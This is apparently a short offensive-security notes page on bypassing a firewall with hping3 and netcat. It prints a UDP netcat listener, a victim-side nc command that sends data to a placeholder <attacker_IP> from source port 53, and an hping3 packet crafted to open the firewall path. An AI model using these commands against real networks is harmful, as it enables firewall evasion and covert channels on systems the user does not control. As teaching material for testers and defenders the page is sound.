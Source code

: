 ```yaml
---
author(s):
  - Sebastian Dante Alexander
tags:
  - post-exploitation
  - defense-evasion
  - living-off-the-land
  - linux
---
```

# Bypass Firewall

Using  [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Live Host Identification/Hping3|hping3]] to bypass the firewall. and `netcat` tools under Linux. Firstly start a UDP listener and in this example the port will be 14141.

```
userware@hackware-os:~$ nc -ulp 14141
```

An external computer (`remote`) then attempts to contact it.

```
victim@remote:~$ echo "hello" | nc -p 53 -u <attacker_IP> 14141
```

However, as expected nothing is received on attacker's machine and, thanks to the firewall, nothing is returned to remote. Now to bypass it. We'll use `hping3` to generate IP packets to punch a hole in the firewall.

```
root@hackware-os:~# hping3 -c 1 -2 -s 14141 -p 53 <target_IP>
```

As long as remote is behaving itself, it will send back a `port unreachable` response via ICMP - however this is of no consequence. On the second attempt. The `netcat` listener then coughs up a `hello` - the UDP packet from outside has passed through the firewall and arrived at the computer behind it.

```
victim@remote:~$ echo "hello" | nc -p 53 -u <attacker_IP> 14141
```